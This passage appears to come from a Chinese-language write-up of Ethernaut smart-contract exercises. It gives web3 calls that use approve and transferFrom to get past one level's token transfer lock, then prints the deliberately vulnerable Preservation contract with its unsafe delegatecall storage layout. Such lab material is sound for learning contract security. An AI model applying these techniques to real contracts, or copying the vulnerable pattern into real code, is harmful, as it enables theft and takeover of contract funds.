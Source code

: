 需要通过 `_spendAllowance(from, spender, amount);`  也就是`_allowances[owner][spender]>=amount`

因此先调用approve，给自己授权转账金额，再调用transferFrom把自己的钱转走即可

```js
await web3.utils.fromWei(await contract.balanceOf(player))	//'1000000'
await contract.approve(player, web3.utils.toWei("1000000"))	//授权
await contract.transferFrom(player, contract.address, web3.utils.toWei("1000000"))	//从自己这里转出去
```

## Preservation

获取合约所有权

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```
